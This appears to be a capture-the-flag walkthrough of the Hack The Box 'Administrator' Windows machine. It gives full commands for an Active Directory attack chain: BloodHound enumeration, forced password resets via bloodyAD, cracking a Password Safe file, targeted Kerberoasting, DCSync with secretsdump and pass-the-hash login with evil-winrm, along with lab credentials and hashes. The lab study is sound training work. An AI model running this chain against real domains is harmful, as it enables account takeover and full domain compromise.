

**NOTES:**

VPN 10.10.11.42

**Machine Information**

As is common in Windows pentests, you will start the Certified box with
credentials for the following account: **Username: Olivia Password:
ichliebedich**

**1**. Add **administrator.htb** to **/etc/hosts** file

**RUN:** **sudo nano /etc/hosts**

**2**. nmap

**RUN: nmap -sV -Pn 10.10.11.42**

{width="6.2972222222222225in"
height="2.2604166666666665in"}

**[MORE COMPREHENSIVE Nmap scan]{.mark} (Port 5985 = WinRM remote
login)**

**RUN: sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txt
administrator.htb**

{width="4.666666666666667in"
height="3.941038932633421in"}

**3**. **crackmapexec** (Gathers info about **HOSTS, SERVICES, SHARES**)

**RUN: crackmapexec smb administrator.htb -u "Olivia" -p "ichliebedich"
--rid-brute \| grep SidTypeUser**

{width="6.2972222222222225in"
height="1.2083333333333333in"}

**4**. **bloodhound** (**Downloading** **USERS, GROUPS, COMPUTERS,
DOMAINS, GPOs, ACLs** in **JSON-files**)

**RUN: bloodhound-python -u Olivia -p 'ichliebedich' -c All -d
administrator.htb -ns 10.10.11.42**

{width="7.078488626421697in"
height="1.5260422134733158in"}

**5**. ADD **dc.administrator.htb** (found in STEP 3) to **/etc/hosts
file**

\- Press **CTRL+Y** to SAVE

\- Press **Y** to CONFIRM (exits the hosts file)

{width="3.2760411198600177in"
height="2.6195067804024497in"}

**6**. **RUN: sudo neo4j console** and **START Bloodhound APP**

{width="3.5625in"
height="2.728448162729659in"}

\- Login with **USER:** **neo4j** and **PASSWORD:** **as163452 (Both
preconfigured, see STEPS in CERTIFIED MACHINE)**

\- Import **JSON-files**

**7**. Check **OUTBOUND OBJECT CONTROL** of
**Olivia@Administrator.htb**, she has FullAccess (**GenericAll**) to
Michael account

**INFO:** Olivia can force Michael to change his password

{width="5.822685914260718in"
height="4.854166666666667in"}

**8**. Check **OUTBOUND OBJECT CONTROL** of
**Michael@Administrator.htb**, he has **ForceChangePassword** to
Benjamin account

{width="5.828124453193351in"
height="3.7695133420822398in"}

**[USER - FOOTHOLD]{.underline}**

**1**. Use Olivia\'s account, to **change PASSWORD** of **Michael
account** (Olivia has GenericALL (FULL ACCESS) to Michael\'s account!!)

**RUN:** **bloodyAD -u \"olivia\" -p \"ichliebedich\" -d
\"Administrator.htb\" \--host \"10.10.11.42\" set password \"Michael\"
\"12345678\"**

{width="4.125in"
height="0.45398622047244097in"}

**2**. Use Michael\'s account, to **change PASSWORD** of **Benjamin
account**

**RUN:** **bloodyAD -u \"Michael\" -p \"12345678\" -d
\"Administrator.htb\" \--host \"10.10.11.42\" set password \"Benjamin\"
\"12345678\"**

{width="6.2972222222222225in"
height="0.47430555555555554in"}

**3**. Use Benjamin\'s account, to **LOGIN via FTP**

\- Download the found file: Backup.psafe3

**INFO:** ftp command establishes a connection to the server

**RUN:** **ftp administrator.htb**

**INFO:** ls lists all files in the directory

**RUN:** **ls**

**INFO:** **Backup.psafe3** is the filename

**RUN:** **get Backup.psafe3**

{width="6.2972222222222225in"
height="2.1618055555555555in"}

**INFO:** psafe3 files are PASSWORD-SAFE FILES. Cannot be cracked
directly!

{width="3.286457786526684in"
height="1.8186417322834645in"}

**HASH can be read with** **TOOL:** **PWsafe2John**

**4**. **Extracts** the **PASSWORD HASH** **from** file:
**Backup.psafe3** (PWsafe database file)

**RUN:** **pwsafe2john Backup.psafe3**

{width="6.3597222222222225in"
height="0.3701388888888889in"}

**4.1** Create a TEXT file and **paste HASH code in file. Name the file
hash.txt.**

{width="6.2868055555555555in"
height="0.8958333333333334in"}

**4.2** **Cracked PW** with john. **PASSWORD: tekieromucho**

**RUN:** **john hash.txt --wordlist=/home/kali/Desktop/rockyou.txt**

{width="4.71875in"
height="1.0354166666666667in"}

**5**. Install TOOL: Passwordsafe.

{width="2.2916666666666665in"
height="0.31843175853018374in"}

**5.2** Open Backup.psafe3, use **PASSWORD: tekieromucho**

{width="3.0260411198600177in"
height="1.929818460192476in"}

Paste PASSWORD tekieromucho

{width="3.0256944444444445in"
height="1.8873151793525809in"}

**5.4** Copy ALL Usernames and Passwords of ALL USERS

{width="2.6354166666666665in"
height="2.044569116360455in"}

**5.5** Create file to **note ALL Usernames** and **Passwords**

{width="6.291666666666667in"
height="3.682638888888889in"}

**5.6** **Look for the rights of all 3 users** in Bloodhound or Try &
Error PASSWORDS by manually testing it

**INFO:** Found Emily has CanPSRemote right.

{width="5.432291119860017in"
height="2.8802602799650043in"}

**6**. Login remotely and get USER.TXT. Paste Emily\'s Password from
STEP 5.5

**RUN:** **evil-winrm -i 10.10.11.42 -u emily -p
UXLCI5iETUsIBoFVTj8yQFKoHjXmb**

{width="6.291666666666667in"
height="2.515972222222222in"}

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

**[PRIVILEGE ESCALATION]{.underline}**

**7**. Check Bloodhound. Emily has GenericWrite (Write Access) to
Ehan\'s account

**INFO:**

Because of Emily\'s access to **Ethan**, he **can use Targeted
Kerberoasting attack**

**targetedKerberoast.py** is a Python script that, like many others
(e.g. GetUserSPNs.py ),

**prints a \"kerberoast\" hash** for user accounts that have SPNs
(Service Principal Name) set.

This tool brings the following additional functionality: for each user
that does not have an SPN,

it attempts to set one ( abusing write access to the attribute ),

prints the \"kerberoast\" hash, and deletes the temporary SPN that was
set for the operation.

{width="6.2868055555555555in"
height="3.1305555555555555in"}

**SPN (Service Principal Name)** examples:

{width="3.5468744531933507in"
height="2.2404811898512684in"}{width="2.7031244531933507in"
height="2.1866469816272964in"}{width="2.3058989501312337in"
height="2.8177088801399823in"}

**7.1** **Download targetedKerberoast.py** FILE + **sync time** +
**Displays HASH** of Ethan\'s account

**Source:**
<https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py>

**INFO: Description of targetedKerberoast.py: See STEP 7**

**RUN:** **python targetedKerberoast.py -u \"emily\" -p
\"UXLCI5iETUsIBoFVTj8yQFKoHjXmb\" -d \"Administrator.htb\" \--dc-ip
10.10.11.42**

{width="6.2972222222222225in"
height="2.7083333333333335in"}

**7.2** Crack it with john

**RUN: john hash.txt --wordlist=/home/kali/Desktop/rockyou.txt**

**Put Ehan's HASH into the hash.txt file!**

{width="6.2972222222222225in"
height="2.3645833333333335in"}

**8**. Look for Ethans account: **DCSync relation found**

**INFO:**

{width="4.041666666666667in"
height="1.1745811461067366in"}

From here: DCSync(bloodhoundenterprise.io)

This edge represents the combination of **GetChanges** and
**GetChangesAll**. The **combination of these two permissions grants**
the principal the ability to perform a **DCSync attack**.

Use this to get the Administrator\'s password hash

secretsdump

**Secretsdump.py** is a script in the Impacket framework that **can also
export the hash of users** on the domain controller **through the DCSync
technology**.

The principle of this tool is to first use the provided user login
credentials to remotely connect to the domain controller through smbexec
or wmiexec and obtain high permissions,

and then export the hash of local accounts from the registry, and export
the hash of all domain users through Dcsync or from the NTDS.dit file.

Its biggest advantage is that it supports connecting to the domain
controller from computers outside the domain.

{width="6.2972222222222225in"
height="3.526388888888889in"}

**8.1** Use cracked **limpbizkit** Password

**INFO: Extracts Hashes, passwords, Kerberos keys. Allows to perform
lateral movement or gain further access within a network**

**RUN:** **impacket-secretsdump
\"Administrator.htb/ethan:limpbizkit\"@\"dc.Administrator.htb\"**

{width="4.666666666666667in"
height="3.7902515310586176in"}

**8.2** **Login remotely** with **CREDENTIALS from STEP 8.1** (**USER +
PASSWORD**)

**RUN:** **evil-winrm -i administrator.htb -u administrator -H
\"3dc553ce4b9fd20bd016e098d2d2fd2e\"**

**When logged in: Switch to ../desktop**

**RUN:** **cd ../desktop**

{width="6.2972222222222225in"
height="1.4326388888888888in"}
